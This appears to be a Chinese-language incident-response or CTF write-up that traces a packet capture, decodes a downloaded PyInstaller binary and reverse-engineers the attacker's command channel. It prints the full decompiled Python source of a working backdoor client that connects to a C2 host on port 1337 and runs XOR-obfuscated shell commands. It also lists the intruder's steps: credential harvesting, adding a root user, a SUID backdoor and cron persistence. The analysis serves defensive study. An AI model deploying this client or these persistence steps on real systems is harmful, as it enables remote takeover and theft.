## 初始信息

捕获网络流量包文件`.pcap`一份，包含异常通信行为

## 流量分析



## 流量过滤

可以看到若干`ssh`流量，`ssh`的传输都是加密的所以先给过滤掉

发现可疑请求路径`/base64_client`



### 异常HTTP会话
```http
GET /base64_client HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.0.2.64
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
Content-type: application/octet-stream
Content-Length: 16181879
Last-Modified: Fri, 27 Oct 2023 03:05:03 GMT
```

查看请求头和响应头可以看到是通过`Wget`从python的`SimpleHTTP`下载文件，这就非常像是攻击者的常用手法

### 文件提取

导出`HTTP`对象进行分析





## 逆向工程

### 文件预处理

因为格式看起来可能是`base64`编码，所以尝试进行解码

```bash
cat base64_client | base64 -d > client
binwalk client
```



可以确定，这是一个`linux`环境下的`x86`架构可执行文件

```bash
objdump -x client
```



`pydata`段通常保存`pyc`，由此可以判断此程序通过python编写，可能通过`pyinstaller`打包



### pyinstaller逆向

尝试运行也可以证明

```bash
python pyinstxtractor.py ./client
```



使用`https://github.com/extremecoders-re/pyinstxtractor.git`来提取`pyc`文件

### 核心代码逆向

接下来尝试使用`uncompyle6`来进行反编译

```bash
uncompyle6 -o client_extracted client_extracted/client.pyc
```

```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

到这里已经知道了攻击者的流量加密方式：(xor+base编码)、端口(1337)、执行的命令混淆在图片的base64编码重，使用AAAAAAAAAA分割



## 攻击链重置

在`wireshark`中过滤`1337`端口，判断攻击者执行的命令

尝试解码全部请求数据，可以看到攻击者用于隐藏操作命令的图片







### 编写解密代码

```python
import re
import base64

file_path = 'data.txt'
xor_key = "MySup3rXoRKeYForCommandandControl"

def xor_decrypt(data, key):
    return ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))

with open(file_path) as file:
    content = file.read()
    matches = re.findall(r"AAAAAAAAAA(.*?)iVBORw", content)

    for match in matches:
        try:
            decoded_command = base64.b64decode(match)
            print("Decrypted Command:", xor_decrypt(decoded_command, xor_key))
        except Exception as e:
            print("Error decoding command:", e)
```
### 确认攻击者操作序列



攻击者首先确认了当前用户的身份与权限

浏览历史命令获取更多信息

通过历史命令获取了明文数据库密码

添加了一个具有root权限的用户

制作具有SUID的后门`/usr/bin/passswd`并检查文件权限

使用`md5sum`校验哈希值是否相等

通过定时任务实现其他目标

## 技术指标

| 指标类型   | 具体内容                          |
| ---------- | --------------------------------- |
| C2服务器   | 10.0.2.64:1337                    |
| 加密算法   | XOR + Base64                      |
| 密钥       | MySup3rXoRKeYForCommandandControl |
| 持久化方式 | SUID后门账户、定时任务            |
